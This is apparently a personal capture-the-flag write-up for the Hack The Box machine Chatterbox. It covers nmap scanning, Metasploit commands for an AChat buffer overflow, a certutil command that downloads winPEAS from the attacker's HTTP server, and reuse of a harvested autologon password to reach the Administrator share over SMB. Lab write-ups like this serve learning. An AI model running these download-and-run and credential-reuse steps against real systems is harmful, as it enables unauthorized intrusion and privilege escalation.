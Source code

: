 ### HTB Chatterbox  (10.10.10.74)

Here we are again, doing another HTB.  Hope this finds you well and let's get to it.

So first thing's first, we nmap to see what we're dealing with.

`sudo nmap -A 10.10.10.74`

![pic1nmap](/Images/HTB2Chat/Pic1nmap.png)
![pic2nmap](/Images/HTB2Chat/Pic2nmap.png)

Looks like we've got a windows machine on our hands.  Some SMB stuff too so that could prove intersting later.  At this point the guided approach in HTB had kinda stopped working.  It was asking how many ports were open and I would answer from this and it would be wrong.  I found a write up to check my work and appears I wasn't totally wrong, but I had too many.  I even tried adjusting my nmap scan.

`sudo nmap -A -p- 10.10.10.74`

And got still another answer, that was again, wrong lol.

![pic3nmap](/Images/HTB2Chat/Pic3nmap.png)

The answer you're looking for is 2.  Those two ports are the the focus, that we will get into now.

The next question in the guided mode asks about the known buffer overflow attack linked to achat.  After a google search I do end up finding an exploit for a version of achat.  Not sure if it's the version I am looking at though, so lets go about finding that.

Followed directions on the rapid7 site.

```
msf6 > use exploit/windows/misc/achat-bof
msf6 exploit(windows/misc/achat-bof) > show targets
```

![pic4metaspoit](/Images/HTB2Chat/Pic4metasploit.png)

And look at that, the version number.  And it just happens to match the exploit I found.  So lets give it a go.

In that same exploit, let's look at our options.

```
msf6 exploit(windows/misc/achat-bof) > set target 10.10.10.74
msf6 exploit(windows/misc/achat-bof) > set lhost <my vpn ip>
msf6 exploit(windows/misc/achat-bof) > show options
```

![pic5metasploit](/Images/HTB2Chat/Pic5metasploit.png)

`msf6 exploit(windows/misc/achat-bof) > run`

And it.....wait, it failed?!  Huh.  Ok, well let's try a different way.  So I found a couple things on git hub about using a buffer overflow for this.  It required using msfvenom in order to build out the vulnverability.  After finding that and getting it figured out (including finding out that these exploits were written in python2 and not python3), and a machine reset, I was finally able to get my exploit going for initial foothold.

![pic6cmd](/Images/HTB2Chat/Pic6cmd.png)

Hey hey!!  That did the trick.  Now that we're in as the user, lets go ahead and grab his flag.

![pic7userflag](/Images/HTB2Chat/Pic7userflag.png)

Now that I have that, let's get to getting the root one.

So first thing, grab us a bit of winpeas and then use python to start an http server and certutil.exe to grab the file over and run that.

```
root@kali# python3 -m http.server 80

C:/Users/Alfred/Documents> certutil -urlcache -f http://<VPN IP Address>/winpeasx86.exe winpeasx86.exe
C:/Users/Alfred/Documents> winpeasx86.exe
```

Once I got that run, then I look through the output and wouldn't you know it, there's an autologin set up.  And it's giving me the password to that.  Not to mention that we also see Alfred here has access to the admins home folders.

![pic8findings](/Images/HTB2Chat/pic8findings.png)

Turns out I don't have full access.  I still have the password though.

![pic9denied](/Images/HTB2Chat/pic9denied.png)


So let's try to do something with this password.  So after some looking, I find that the trick to this box is in the ports that are open.  I find a tool called plink.exe cause when looking at the netstat -ano command, you'll notice that there is an extra port on the inside that isn't showing up on the outside.

```
C:/Users/Alfred/Desktop>netstat -ano
```

![pic10SMB](/Images/HTB2Chat/pic10SMB.png)

Oh look, it's SMB.  We know all about SMB.  And actually, after looking, I found that SMB is apparently running on the outside.  Back to that earlier where it showed only 2 ports as being open.  So connect via SMB and try the Administrator account with the password we grabbed earlier for Alfred, since he's a local admin.

```
smbclient \\\\10.10.10.74\\C$ -U Administrator
Password for [WORKGROUP\Administrator]:
```
![pic11SMB](/Images/HTB2Chat/pic11SMB.png)

And that gives us our root.txt file.  Use SMB to download the file and then simply open it up and there's your flag!

![pic12SMB](/Images/HTB2Chat/pic12SMB.png)
![pic13root](/Images/HTB2Chat/pic13root.png)

This one was fun, a little sad that the plink path didn't work but it is what it is.  I think it may not have worked because that port was already on the outside so trying to forward something already forwarded may be an issue.  But, we got it, all good now.

